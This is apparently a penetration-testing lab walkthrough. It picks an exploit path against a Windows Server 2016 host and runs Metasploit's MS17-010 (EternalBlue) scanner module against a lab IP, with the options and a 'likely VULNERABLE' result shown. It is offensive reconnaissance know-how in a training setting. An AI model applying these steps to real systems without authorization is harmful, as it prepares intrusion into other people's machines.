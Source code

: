 We figured out a few things during scanning & validation of the example host in question. It is running `Windows Server 2016 Standard 6.3`. We have the hostname now, and we know it is not in a domain and is running several services. Now that we have gathered some information let's determine our potential exploit path.

`IIS` could be a potential path, attempting to access the host over SMB utilizing a tool like Impacket or authenticating if we had credentials could do it, and from an OS perspective, there may be a route for an RCE as well. MS17-010 (EternalBlue) has been known to affect hosts ranging from Windows 2008 to Server 2016. With this in mind, it could be a solid bet that our victim is vulnerable since it falls in that window. Let's validate that using a builtin auxiliary check from `Metasploit`, `auxiliary/scanner/smb/smb_ms17_010`.

1. Search for and decide on an exploit path

Open `msfconsole` and search for EternalBlue, or you can use the string in the session below to use the check. Set the RHOSTS field with the target's IP address and initiate the scan. As can be seen in the options for the module, you can fill in more of the SMB settings, but it is not necessary. They will help to make the check more likely to succeed. When ready, type `run`.

#### Determine an Exploit Path

```shell
msf6 auxiliary(scanner/smb/smb_ms17_010) > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                 Required  Description
   ----         ---------------                 --------  -----------
   CHECK_ARCH   true                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framewor  yes       List of named pipes to check
                k/data/wordlists/named_pipes.t
                xt
   RHOSTS                                       yes       The target host(s), range CIDR identifier, or hosts f
                                                          ile with syntax 'file:<path>'
   RPORT        445                             yes       The SMB service port (TCP)
   SMBDomain    .                               no        The Windows domain to use for authentication
   SMBPass                                      no        The password for the specified username
   SMBUser                                      no        The username to authenticate as
   THREADS      1                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.129.201.97

RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
